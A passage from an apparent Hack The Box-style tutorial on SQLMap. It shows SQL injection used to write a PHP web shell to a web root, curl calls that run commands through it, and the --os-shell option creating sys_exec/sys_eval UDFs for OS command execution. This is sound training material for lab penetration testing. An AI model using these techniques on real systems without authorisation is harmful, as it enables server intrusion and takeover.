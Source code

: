 ```shell-session
[17:54:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

[*] ending @ 17:54:28 /2020-11-19/
```

We see that SQLMap confirmed that the file was indeed written:

```shell-session
[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)
```

Now, we can attempt to access the remote PHP shell, and execute a sample command:

```shell-session
smoothment@htb[/htb]$ curl http://www.example.com/shell.php?cmd=ls+-la

total 148
drwxrwxrwt 1 www-data www-data 4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data 4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql mysql 188 Nov 19 07:39 basic.php
...SNIP...
```

We see that our PHP shell was indeed written on the remote server, and that we do have command execution over the host server.

---

## OS Command Execution

Now that we confirmed that we could write a PHP shell to get command execution, we can test SQLMap's ability to give us an easy OS shell without manually writing a remote shell. SQLMap utilizes various techniques to get a remote shell through SQL injection vulnerabilities, like writing a remote shell, as we just did, writing SQL functions that execute commands and retrieve output or even using some SQL queries that directly execute OS command, like`xp_cmdshell` in Microsoft SQL Server. To get an OS shell with SQLMap, we can use the`--os-shell` option, as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell

 ___
 __H__
 ___ ___[.]_____ ___ ___ {1.4.11#stable}
|_ -| . [)] | .'| . |
|___|_ ["]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org

[*] starting @ 18:02:15 /2020-11-19/

[18:02:16] [INFO] resuming back-end DBMS 'mysql'
[18:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
[18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
[18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
[18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
```